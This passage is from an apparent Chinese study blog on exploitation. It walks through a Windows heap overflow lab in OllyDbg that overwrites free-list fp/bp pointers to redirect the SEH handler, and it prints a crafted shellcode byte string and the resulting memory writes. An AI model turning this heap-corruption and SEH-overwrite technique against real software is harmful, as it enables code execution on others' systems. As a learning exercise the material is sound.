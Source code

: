 我们编译运行，被中断进入OD，单步到memcpy执行前，观察此时的堆区：

![Bildschirmfoto 2018-11-03 um 4.44.37 PM.png]({{ site.url }}/images/0day/354D207C7CB7CE3C2EAAB471E57F7F06.png)

可以发现，shellcode的`24 ~ 31`字节将覆盖申请h1后生成的新尾块的fp和bp。结合栈地址的特点，我们考虑把这两个地方均放置`0x003a06eb`，这是因为`eb 06`是短跳转指令，在被当作指令执行时可以帮助我们跳过后面的垃圾代码（到后面调试shellcode时就能看到它的用处了）。

现在`0x003a06eb`是fp了，那么`0x003a06eb + 4 = 0x003a06ef`就是前面的`temp0->fp->bp`，这个位置我们放上一个SEH节点存储异常处理函数的地址，这样就可以在后面申请h2空间后的新chunk插入过程中把数据写入SEH异常处理函数指针处。我们将栈拉到最底下找到默认异常处理函数句柄位于`0x0012ffe4`：

![Bildschirmfoto 2018-11-03 um 2.11.11 PM.png]({{ site.url }}/images/0day/D98EBE9823517B0C4BE4B51D1DF3928E.png)

所以在`0x003a06eb + 4`处我们放上`0x0012ffe4`。那么`0x003a06eb`呢？这个位置对我们没有用，但是为了防止后面我们没有考虑到的地方使用这个地址，我们给它一个合理的值，姑且让它指向h1已经分得的合法缓冲区空间`0x003a068c`。

```c
	// 24 nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x10\x01\x10\x00\x99\x99\x99\x99"
	// 4 fp
	"\xeb\x06\x3a\x00"
	// 4 bp
	"\xeb\x06\x3a\x00"
	// nops
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	// fake [fp]
	"\x8c\x06\x3a\x00"
	// fake [fp + 4]
	"\xe4\xff\x12\x00";
```

编译运行，同样执行到memcpy前：

![Bildschirmfoto 2018-11-03 um 5.07.46 PM.png]({{ site.url }}/images/0day/B49B82C893A07086F7F2E33A02B465EB.png)

可以发现栈上数据已经符合我们目前的布置。

接着我们在h2分配过程中的新chunk插入环节下断点，看一下temp1的地址：

![Bildschirmfoto 2018-11-03 um 5.14.44 PM.png]({{ site.url }}/images/0day/1A1822E8F5493C3F6A1445C8E41A972A.png)

可以发现，`0x003a06b8`是temp1存储fp的地方。我们把插入操作执行完：

![Bildschirmfoto 2018-11-03 um 5.17.43 PM.png]({{ site.url }}/images/0day/74AE63FDEF02B185388EE93162B8831A.png)

![Bildschirmfoto 2018-11-03 um 5.20.08 PM.png]({{ site.url }}/images/0day/A33975C481A9FA7E64D06880D73C8D29.png)

上面两幅图中红框框起来的四处变化正好是前面公式对应的

```c
[0x003a06b8] = 0x003a06eb
[0x003a06b8 + 4] = 0x0012ffe4
[0x0012ffe4] = 0x003a06b8
[0x003a06eb + 4] = 0x003a06b8
```
